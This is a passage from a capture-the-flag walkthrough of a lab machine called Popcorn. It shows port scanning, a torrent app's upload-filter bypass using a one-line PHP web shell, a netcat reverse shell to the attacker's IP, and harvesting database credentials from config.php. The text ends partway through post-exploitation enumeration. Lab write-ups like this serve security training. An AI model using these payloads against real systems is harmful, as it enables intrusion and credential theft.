- Machine Name: Popcorn
- OS Type: Linux
- Difficulty: Medium

### Port Scanning - Service & Version Enumeration

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAIAn8zzHM1eVS/OaLgV6dgOKaT+kyvjU0pMUqZJ3AgvyOrxHa2m+ydNk8cixF9lP3Z8gLwquTxJDuNJ05xnz9/DzZClqfNfiqrZRACYXsquSAab512kkl+X6CexJYcDVK4qyuXRSEgp4OFY956Aa3CCL7TfZxn+N57WrsBoTEb9PAAAAFQDMosEYukWOzwL00PlxxLC+lBadWQAAAIAhp9/JSROW1jeMX4hCS6Q/M8D1UJYyat9aXoHKg8612mSo/OH8Ht9ULA2vrt06lxoC3O8/1pVD8oztKdJgfQlWW5fLujQajJ+nGVrwGvCRkNjcI0Sfu5zKow+mOG4irtAmAXwPoO5IQJmP0WOgkr+3x8nWazHymoQlCUPBMlDPvgAAAIBmZAfIvcEQmRo8Ef1RaM8vW6FHXFtKFKFWkSJ42XTl3opaSsLaJrgvpimA+wc4bZbrFc4YGsPc+kZbvXN3iPUvQqEldak3yUZRRL3hkF3g3iWjmkpMG/fxNgyJhyDy5tkNRthJWWZoSzxS7sJyPCn6HzYvZ+lKxPNODL+TROLkmQ==
|   2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAyBXr3xI9cjrxMH2+DB7lZ6ctfgrek3xenkLLv2vJhQQpQ2ZfBrvkXLsSjQHHwgEbNyNUL+M1OmPFaUPTKiPVP9co0DEzq0RAC+/T4shxnYmxtACC0hqRVQ1HpE4AVjSagfFAmqUvyvSdbGvOeX7WC00SZWPgavL6pVq0qdRm3H22zIVw/Ty9SKxXGmN0qOBq6Lqs2FG8A14fJS9F8GcN9Q7CVGuSIO+UUH53KDOI+vzZqrFbvfz5dwClD19ybduWo95sdUUq/ECtoZ3zuFb6ROI5JJGNWFb6NqfTxAM43+ffZfY28AjB1QntYkezb1Bs04k8FYxb5H7JwhWewoe8xQ==
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.2.12
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://popcorn.htb/
|_http-server-header: Apache/2.2.12 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port 80/HTTP

i’ll start my enumeration from port 80 which is running website



looks like it only allows access using hostname, let’s add the entry in /etc/hosts file and then refresh the webpage



i’ll check the website technology using whatweb

```bash
whatweb http//popcorn.htb
```



let’s run gobuster to fuzz for files and directories

```bash
gobuster dir -u http://popcorn.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



let’s check the /test first



it has the phpinfo page, let’s keep this info in our back-pocket and move to another directory /torrent



create account and then login using created account’s creds

after loging in i found the upload section which we can use to upload the torrent files



> Note: If you need automate exploit to exploit vulnerability → https://github.com/Anon-Exploiter/exploits/blob/master/torrent_hoster_unauthenticated_rce.py
> 

we are going to find and exploit it manually, open the burpsuite and start the proxy

after trying to upload the txt file it says it’s not valid torrent file



if we navigate to browse option we found the already uploaded torrent named “kali Linux”



after clicking the download we found that it uses the standard torrent extension (.torrent)



so i’ve created simple php shell with .torrent extension



now let’s try to upload the torrent file



but i faced same issue  looks like it is also checking the file type and contents let’s upload the downloaded torrent and give it another name



it  shows the torrent is already exist 



then i used online torrent generator website to generate a torrent file → https://kimbatt.github.io/torrent-creator/

create simple file on kali with any content i created 0xh3x file and upload it to website and convert it to torrent

 



and this time torrent uploaded successfully

go to browse and then select uploaded torrent we found the option to edit torrent which allows us to upload the screenshot!



create a shell.jpg file with following contents.

```bash
<?php system($_GET['cmd']); ?>
```

then upload the shell.jpg



intercept the request and change file name to shell.php and then forward the request it will successfully upload the shell.php as screenshot

hover on the screenshot section and we’ll find the url to access screenshot



access the url



and we got RCE on the system let’s get the shell using below command

start netcat listener on port 443 before executing below command

```bash
nc 10.10.14.17 443 -e /bin/bash
```



get TTY shell using

```bash
python -c 'import pty;pty.spawn("/bin/bash");'
```

we found user.txt inside the /home/george/user.txt



after gaining shell on the machine i started enumerating system for intersting files i found database creds inside the config.php file



let’s check if mysql service running or not using `ss -tunlp` command



to troubleshoot this issue we need to first add /sbin directory to $PATH variable

```bash
export PATH=$PATH:/sbin
```

and then run `ss -tunlp` again

